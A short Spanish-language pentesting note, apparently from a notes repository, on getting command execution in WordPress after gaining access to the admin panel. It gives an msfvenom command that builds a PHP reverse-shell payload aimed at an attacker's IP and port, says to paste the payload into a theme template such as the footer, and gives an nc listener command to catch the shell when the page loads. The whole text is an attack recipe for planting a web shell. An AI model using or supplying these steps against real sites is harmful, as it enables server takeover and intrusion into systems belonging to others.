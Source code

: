 # Alterando condigo PHP
Para conseguir ejecución de comandos en WordPress en primer lugar deberemos tener acceso al panel de control.

## 1. Creamos un payload con msfvenom
```bash
msfvenom -p php/reverse_php LHOST=<"IP Atancante"> LPORT=<"Puerto de conexion a la maquina atacante"> -f raw > pwned.php
```
## 2. Copiamos el contenido del código del Payload
## 3. Pegamos el contenido del Payload en alguna plantilla de WordPress
Por ejemplo, utilizamos la plantilla *Theme Footer* que se encuentra en `Apariencia > Theme Editor > Theme Footer`

## 4. Ponemos a la escucha con la maquina atacante
```bash
nc -nlvp <"Puerto que hemos especificado en el payload">
```

## 5. Abrimos la página que hemos modificado